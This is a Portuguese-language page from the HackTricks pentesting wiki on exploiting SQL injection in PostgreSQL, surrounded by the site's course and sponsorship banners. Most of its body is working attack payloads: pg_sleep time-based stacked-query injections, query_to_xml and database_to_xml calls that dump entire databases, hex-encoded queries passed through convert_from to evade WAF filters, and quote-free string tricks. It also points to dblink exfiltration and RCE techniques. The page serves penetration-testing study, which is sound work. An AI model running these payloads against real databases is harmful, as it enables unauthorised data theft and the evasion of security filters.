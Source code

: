 # PostgreSQL injection

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em **carreira de hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada é necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Esta página tem como objetivo explicar diferentes truques que podem ajudá-lo a explorar uma SQL injection encontrada em um banco de dados postgresql e complementar os truques que você pode encontrar em** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Interação de Rede - Escalação de Privilégios, Scanner de Portas, divulgação de resposta de desafio NTLM & Exfiltração

O **módulo PostgreSQL `dblink`** oferece capacidades para conectar a outras instâncias PostgreSQL e executar conexões TCP. Esses recursos, combinados com a funcionalidade `COPY FROM`, permitem ações como escalonamento de privilégios, varredura de portas e captura de resposta de desafio NTLM. Para métodos detalhados sobre como executar esses ataques, confira como [realizar esses ataques](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exemplo de exfiltração usando dblink e objetos grandes**

Você pode [**ler este exemplo**](dblink-lo\_import-data-exfiltration.md) para ver um exemplo de CTF de **como carregar dados dentro de objetos grandes e depois exfiltrar o conteúdo de objetos grandes dentro do nome de usuário** da função `dblink_connect`.

## Ataques PostgreSQL: Leitura/escrita, RCE, privesc

Confira como comprometer o host e escalar privilégios a partir do PostgreSQL em:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## Bypass de WAF

### Funções de String do PostgreSQL

Manipular strings pode ajudá-lo a **burlar WAFs ou outras restrições**.\
[**Nesta página** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**você pode encontrar algumas funções de Strings úteis.**

### Consultas Empilhadas

Lembre-se de que o postgresql suporta consultas empilhadas, mas várias aplicações gerarão um erro se 2 respostas forem retornadas quando se espera apenas 1. Mas, você ainda pode abusar das consultas empilhadas via injeção de Tempo:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### Truques de XML

**query\_to\_xml**

Esta função retornará todos os dados em formato XML em apenas um arquivo. É ideal se você quiser despejar muitos dados em apenas 1 linha:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Esta função irá despejar todo o banco de dados em formato XML em apenas 1 linha (tenha cuidado se o banco de dados for muito grande, pois você pode causar um DoS ou até mesmo ao seu próprio cliente):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings em Hex

Se você puder executar **queries** passando-as **dentro de uma string** (por exemplo, usando a **`query_to_xml`** função). **Você pode usar o convert\_from para passar a string como hex e contornar filtros dessa forma:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Citações proibidas

Se não puder usar aspas para seu payload, você pode contornar isso com `CHR` para cláusulas básicas (_a concatenação de caracteres funciona apenas para consultas básicas, como SELECT, INSERT, DELETE, etc. Não funciona para todas as instruções SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ou com `$`. Essas consultas retornam os mesmos resultados:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em **carreira de hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada é necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
